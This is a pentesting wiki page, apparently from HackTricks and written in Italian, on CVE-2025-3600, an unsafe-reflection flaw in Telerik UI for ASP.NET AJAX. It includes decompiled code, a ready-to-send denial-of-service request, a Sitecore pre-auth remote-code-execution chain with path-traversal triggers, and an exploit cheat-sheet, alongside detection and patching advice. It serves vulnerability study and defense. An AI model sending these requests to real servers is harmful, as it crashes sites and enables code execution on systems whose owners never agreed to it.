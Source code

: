 # Telerik UI for ASP.NET AJAX – Reflection insicura tramite WebResource.axd (type=iec)

{{#include ../../banners/hacktricks-training.md}}

> L'esecuzione del costruttore pre‑auth nell'Image Editor cache handler di Telerik UI for ASP.NET AJAX consente un DoS universale e, in molte app, RCE pre‑auth tramite gadget specifici per il target (CVE-2025-3600).

## TL;DR

- Componente/route interessato: Telerik.Web.UI.WebResource.axd con query type=iec (Image Editor cache handler). Esposto pre‑auth in molti prodotti.
- Primitive: L'attaccante controlla un nome di tipo (prtype). Il handler lo risolve con Type.GetType() e invoca Activator.CreateInstance() prima di verificare la sicurezza del tipo rispetto all'interfaccia. Qualsiasi costruttore .NET pubblico senza parametri verrà eseguito.
- Impatto:
- DoS pre‑auth universale usando un gadget del .NET framework (PowerShell WSMan finalizer).
- Spesso si eleva a RCE pre‑auth in deployment reali abusando di gadget specifici dell'app, in particolare handler AppDomain.AssemblyResolve insicuri.
- Fix: Aggiornare a Telerik UI for ASP.NET AJAX 2025.1.416+ oppure rimuovere/bloccare il handler.

## Versioni interessate

- Le versioni di Telerik UI for ASP.NET AJAX dalla 2011.2.712 alla 2025.1.218 (incluse) sono vulnerabili.
- Corretto in 2025.1.416 (rilasciato 2025-04-30). Applicare la patch immediatamente o rimuovere/bloccare il handler.

## Superficie interessata e scoperta rapida

- Controlla l'esposizione:
- GET /Telerik.Web.UI.WebResource.axd dovrebbe restituire qualcosa di diverso da 404/403 se il handler è registrato.
- Ispeziona web.config per handler mappati su Telerik.Web.UI.WebResource.axd.
- Il percorso che attiva il codice vulnerabile richiede: type=iec, dkey=1, e prtype=<AssemblyQualifiedType>.

Esempio di probe e trigger generico:
```http
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=Namespace.Type, Assembly
```
Note
- Alcuni PoC usano dtype; l'implementazione verifica dkey=="1" per il flusso di download.
- prtype deve essere assembly-qualified o risolvibile nell'AppDomain corrente.

## Causa principale – unsafe reflection in ImageEditorCacheHandler

Il flusso di download della cache di Image Editor costruisce un'istanza di un tipo fornito in prtype e solo più tardi la esegue il cast a ICacheImageProvider e valida la chiave di download. Il costruttore è già stato eseguito quando la validazione fallisce.

<details>
<summary>Flusso decompilato rilevante</summary>
```csharp
// entrypoint
public void ProcessRequest(HttpContext context)
{
string text = context.Request["dkey"];           // dkey
string text2 = context.Request.Form["encryptedDownloadKey"]; // download key
...
if (this.IsDownloadedFromImageProvider(text)) // effectively dkey == "1"
{
ICacheImageProvider imageProvider = this.GetImageProvider(context); // instantiation happens here
string key = context.Request["key"];
if (text == "1" && !this.IsValidDownloadKey(text2))
{
this.CompleteAsBadRequest(context.ApplicationInstance);
return; // cast/check happens after ctor has already run
}
using (EditableImage editableImage = imageProvider.Retrieve(key))
{
this.SendImage(editableImage, context, text, fileName);
}
}
}

private ICacheImageProvider GetImageProvider(HttpContext context)
{
if (!string.IsNullOrEmpty(context.Request["prtype"]))
{
return RadImageEditor.InitCacheImageProvider(
RadImageEditor.GetICacheImageProviderType(context.Request["prtype"]) // [A]
);
}
...
}

public static Type GetICacheImageProviderType(string imageProviderTypeName)
{
return Type.GetType(string.IsNullOrEmpty(imageProviderTypeName) ?
typeof(CacheImageProvider).FullName : imageProviderTypeName); // [B]
}

protected internal static ICacheImageProvider InitCacheImageProvider(Type t)
{
// unsafe: construct before enforcing interface type-safety
return (ICacheImageProvider)Activator.CreateInstance(t); // [C]
}
```
</details>

Primitiva dell'exploit: Stringa di tipo controllata → Type.GetType la risolve → Activator.CreateInstance esegue il suo costruttore pubblico senza parametri. Anche se la richiesta viene poi rifiutata, i side‑effects del gadget si sono già verificati.

## Universal DoS gadget (non sono richiesti gadget specifici dell'app)

Class: System.Management.Automation.Remoting.WSManPluginManagedEntryInstanceWrapper in System.Management.Automation (PowerShell) ha un finalizer che esegue Dispose su un handle non inizializzato, causando un'eccezione non gestita quando il GC lo finalizza. Questo manda in crash in modo affidabile il processo worker di IIS poco dopo l'instanziazione.

One‑shot DoS request:
```http
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=System.Management.Automation.Remoting.WSManPluginManagedEntryInstanceWrapper,+System.Management.Automation,+Version%3d3.0.0.0,+Culture%3dneutral,+PublicKeyToken%3d31bf3856ad364e35
```
Note
- Continua a inviare periodicamente per mantenere il sito offline. Potresti osservare il costruttore invocato in un debugger; il crash avviene durante la finalizzazione.

## From DoS to RCE – escalation patterns

L'esecuzione non sicura dei costruttori sblocca molti gadget e catene specifici per il target. Cerca:

1) Parameterless constructors that process attacker input
- Alcuni ctors (o inizializzatori statici) leggono immediatamente Request query/body/cookies/headers e (de)serializzano i dati.
- Esempio (Sitecore): una catena di ctor raggiunge GetLayoutDefinition() che legge il body HTTP "layout" e deserializza JSON via JSON.NET.

2) Constructors that touch files
- Ctros che caricano o deserializzano config/blobs dal disco possono essere forzati se riesci a scrivere in quei percorsi (cartelle uploads/temp/data).

3) Constructors performing app-specific ops
- Reimpostare lo stato, attivare/disattivare moduli o terminare processi.

4) Constructors/static ctors that register AppDomain event handlers
- Molte app aggiungono AppDomain.CurrentDomain.AssemblyResolve handlers che costruiscono percorsi DLL da args.Name senza sanitizzazione. Se puoi influenzare la risoluzione dei tipi puoi forzare il caricamento arbitrario di DLL da percorsi controllati dall'attaccante.

5) Forcing AssemblyResolve via Type.GetType
- Richiedi un tipo inesistente per forzare la risoluzione del CLR e invocare i resolver registrati (potenzialmente insicuri). Esempio assembly-qualified name:
```
This.Class.Does.Not.Exist, watchTowr
```
6) Finalizers con effetti collaterali distruttivi
- Alcuni tipi cancellano file a percorso fisso nei finalizers. Combinato con link-following o percorsi prevedibili questo può abilitare local privilege escalation in alcuni ambienti.

## Esempio di catena RCE pre‑auth (Sitecore XP)

- Passo 1 – Pre‑auth: Attiva un tipo il cui static/instance ctor registra un handler AssemblyResolve insicuro (e.g., Sitecore’s FolderControlSource in ControlFactory).
- Passo 2 – Post‑auth: Ottenere permessi di scrittura in una directory probeata dal resolver (e.g., tramite un auth bypass o un upload debole) e piantare una DLL malevola.
- Passo 3 – Pre‑auth: Usare CVE‑2025‑3600 con un tipo non esistente e un nome assembly contenente traversal per forzare il resolver a caricare la DLL piantata → code execution as the IIS worker.

Esempi di trigger
```http
# Load the insecure resolver (no auth on many setups)
GET /-/xaml/Sitecore.Shell.Xaml.WebControl

# Coerce the resolver via Telerik unsafe reflection
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=watchTowr.poc,+../../../../../../../../../watchTowr
```
## Note di validazione, hunting e DFIR

- Validazione in laboratorio sicuro: lanciare il DoS payload e osservare il riciclo dell'app pool/eccezione non gestita legata al WSMan finalizer.
- Hunt nella telemetria:
- Richieste a /Telerik.Web.UI.WebResource.axd con type=iec e valori prtype anomali.
- Tentativi di type load falliti ed eventi AppDomain.AssemblyResolve.
- Crash/ricicli improvvisi di w3wp.exe a seguito di tali richieste.

## Mitigazione

- Applicare la patch a Telerik UI for ASP.NET AJAX 2025.1.416 o successiva.
- Rimuovere o limitare l'esposizione di Telerik.Web.UI.WebResource.axd dove possibile (WAF/rewrites).
- Ignorare o rinforzare la gestione di prtype lato server (l'upgrade applica controlli appropriati prima dell'instanziazione).
- Eseguire audit e rinforzare gli handler personalizzati AppDomain.AssemblyResolve. Evitare di costruire percorsi da args.Name senza sanitizzazione; preferire strong-named loads o whitelist.
- Limitare le posizioni di upload/scrittura e impedire il drop di DLL nelle directory ispezionate.
- Monitorare i tentativi di type load verso tipi inesistenti per individuare abusi del resolver.

## Cheat‑sheet

- Verifica di presenza:
- GET /Telerik.Web.UI.WebResource.axd
- Controllare la mappatura degli handler in web.config
- Exploit skeleton:
```http
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=<TypeName,+Assembly,+Version=..., +PublicKeyToken=...>
```
- Universale DoS:
```http
...&prtype=System.Management.Automation.Remoting.WSManPluginManagedEntryInstanceWrapper,+System.Management.Automation,+Version%3d3.0.0.0,+Culture%3dneutral,+PublicKeyToken%3d31bf3856ad364e35
```
- Risolutore del trigger:
```
This.Class.Does.Not.Exist, watchTowr
```
## Tecniche correlate

- IIS post-exploitation, .NET key extraction, e in‑memory loaders:

{{#ref}}
iis-internet-information-services.md
{{#endref}}

- ASP.NET ViewState deserialization e machineKey abuses:

{{#ref}}
../../pentesting-web/deserialization/exploiting-__viewstate-parameter.md
{{#endref}}

## Riferimenti

- [watchTowr labs – More than DoS: Progress Telerik UI for ASP.NET AJAX Unsafe Reflection (CVE-2025-3600)](https://labs.watchtowr.com/more-than-dos-progress-telerik-ui-for-asp-net-ajax-unsafe-reflection-cve-2025-3600/)
- [Black Hat USA 2019 – SSO Wars: The Token Menace (Mirosh & Muñoz) – DoS gadget background](https://i.blackhat.com/USA-19/Wednesday/us-19-Munoz-SSO-Wars-The-Token-Menace-wp.pdf)
- [ZDI – Abusing arbitrary file deletes to escalate privilege](https://www.zerodayinitiative.com/blog/2022/3/16/abusing-arbitrary-file-deletes-to-escalate-privilege-and-other-great-tricks)
- [watchTowr – Is “B” for Backdoor? (Sitecore chain CVE-2025-34509)](https://labs.watchtowr.com/is-b-for-backdoor-pre-auth-rce-chain-in-sitecore-experience-platform/)

{{#include ../../banners/hacktricks-training.md}}
